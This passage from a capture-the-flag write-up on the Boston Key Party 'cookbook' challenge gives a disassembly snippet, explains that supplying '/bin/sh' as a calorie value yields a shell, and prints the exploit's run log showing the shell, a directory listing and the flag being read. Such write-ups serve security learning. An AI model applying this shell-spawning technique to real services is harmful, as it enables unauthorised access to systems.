 ```assembly
.text:08048F8E 83 C4 10              add     esp, 10h
.text:08048F91 89 C2                 mov     edx, eax
.text:08048F93 8B 45 DC              mov     eax, [ebp+var_24]
.text:08048F96 01 D0                 add     eax, edx
.text:08048F98 C6 00 00              mov     byte ptr [eax], 0
.text:08048F9B 83 EC 0C              sub     esp, 0Ch
.text:08048F9E FF 75 DC              push    [ebp+var_24]                ; nptr
.text:08048FA1 E8 3A F6 FF FF        call    _atoi
.text:08048FA6 83 C4 10              add     esp, 10h
.text:08048FA9 89 45 E0              mov     [ebp+var_20], eax
.text:08048FAC A1 9C D0 04 08        mov     eax, dword ptr ds:TEMP_INGR_804D09C
.text:08048FB1 8B 55 E0              mov     edx, [ebp+var_20]
.text:08048FB4 89 10                 mov     [eax], edx
.text:08048FB6 EB 10                 jmp     short loc_8048FC8
```
However instead of giving the number of calories we'll give "/bin/sh", and we'll end up
with an open shell. We read "key" file and after a long time we get the flag:
**BKPCTF{hey_my_grill_doesnt_work_here}**

```

root@xrysa:~/ctf/bostonkeyparty# ./cookbook_expl.py 
	[..... TRUNCATED FOR BREVITY .....]
	----------------------------------------------------------------
	Received:

	Sending:  /bin/sh
	 *** Opening Shell *** 
	whoami
		nobody
	ls -la
		total 1816
		drwxr-xr-x 2 cooking-manager cooking-manager    4096 Mar  5 01:38 .
		drwxr-xr-x 3 root            root               4096 Mar  4 03:51 ..
		-rw-r--r-- 1 cooking-manager cooking-manager     220 Mar  4 03:51 .bash_logout
		-rw-r--r-- 1 cooking-manager cooking-manager    3771 Mar  4 03:51 .bashrc
		-rw-r--r-- 1 cooking-manager cooking-manager     675 Mar  4 03:51 .profile
		-rwxr-xr-x 1 root            root              17936 Mar  4 04:05 cookbook
		-rw-r--r-- 1 root            root                 38 Mar  5 01:38 key
		-rwxrwxr-x 1 cooking-manager cooking-manager 1807496 Mar  4 04:10 libc.so.6
		-rwxr-xr-x 1 root            root                136 Mar  4 23:46 run.sh
	cat key
		BKPCTF{hey_my_grill_doesnt_work_here}
	cat run.sh
		#!/bin/bash
		socat TCP-LISTEN:5000,fork,reuseaddr,su=nobody SYSTEM:"timeout 60 LD_PRELOAD=/home/cooking-manager/libc.so.6 ./cookbook $1"
	exit
	*** Connection closed by remote host ***
```
___
